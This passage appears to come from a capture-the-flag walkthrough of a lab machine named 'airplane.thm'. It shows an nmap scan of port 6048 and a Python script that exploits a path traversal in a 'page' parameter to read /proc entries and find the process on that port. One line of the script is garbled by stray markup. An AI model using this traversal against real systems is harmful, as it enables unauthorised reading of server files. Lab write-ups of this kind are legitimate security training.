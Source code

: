 - i copy and paste the output to `chatgpt` to analyse and decode:

![](https://i.imgur.com/q52nEtv.png)

- from the port section on one ports is `not-normal` (6048)
- so i use `nmap` to enumerate more on that port:

```bash
❯ nmap -sCV 10.10.98.212 -p6048
```

![](https://i.imgur.com/skVsSHP.png)

- now to enumerate more on he port i asked `chatgpt` to create a python script to find the process-id of the running `port` :

![](https://i.imgur.com/RLUnOy3.png)

```python
import requests  
  
def read_file(base_url, path):  
    file_url = f"{base_url}/?page=../../../../{path}"  
    try:  
        response = requests.get(file_url)  
        if response.status_code == 200:  
            return response.text  
        else:  
            return None  
    except Exception as e:  
        print(f"Error reading {path}: {e}")  
        return None  
  
def find_pid_by_port(base_url, port):  
    for pid in range(1, 5000):  # Adjust the range based on the expected number of PIDs  
        cmdline_path = f"proc/{pid}/cmdline"  
        cmdline = read_file(base_url, cmdline_path)  
        if cmdline:  
            if str(port) ==in== ==cmdline:==  
                return pid  
    return None  
  
# Example usage  
base_url = 'http://airplane.thm:8000'  
port = '6048'  
pid = find_pid_by_port(base_url, port)  
if pid:  
    cmdline = read_file(base_url, f"proc/{pid}/cmdline")  
    status = read_file(base_url, f"proc/{pid}/status")  
    print(f'PID using port {port}: {pid}')  
    print(f'Command line: {cmdline}')  
    print(f'Status: {status}')  
else:  
    print(f'No process found using port {port}')
```
